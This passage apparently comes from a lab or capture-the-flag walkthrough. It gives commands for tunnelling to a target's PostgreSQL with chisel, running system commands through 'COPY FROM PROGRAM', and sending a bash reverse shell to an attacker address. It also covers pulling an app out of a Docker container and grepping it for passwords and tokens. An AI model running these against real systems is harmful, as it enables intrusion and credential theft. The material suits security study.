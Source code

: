 If we needed to access the PostgreSQL database remotely:

```bash
# On Kali machine
./chisel server -p 8001 --reverse -v

# On target machine
./chisel client 10.10.14.13:8001 R:5432:172.22.0.1:5432

# Connect to database
psql postgresql://postgres:postgres@127.0.0.1/mentorquotes_db
```

### PostgreSQL Command Execution

```sql
-- List databases
\l

-- List tables
\dt

-- View table structure
\d+ users

-- Create command execution table
DROP TABLE IF EXISTS cmd_exec;
CREATE TABLE cmd_exec(cmd_output text);

-- Execute system commands
COPY cmd_exec FROM PROGRAM 'hostname';
SELECT * FROM cmd_exec;

-- Reverse shell via PostgreSQL
COPY cmd_exec FROM PROGRAM 'bash -c "bash -i >& /dev/tcp/10.10.14.8/9001 0>&1"';
```

### Docker Container Analysis

```bash
# List running containers
docker ps

# Access container
docker exec -it 29af sh

# Create archive of application
tar -cjvf app.tar.bz2 app

# Copy from container to host
docker cp 29af:/app.tar.bz2 /dev/shm/

# Extract and analyze
tar -xjvf app.tar.bz2
ls -l app/

# Search for credentials
grep -Ri "password\|secret\|key\|token" app/
```
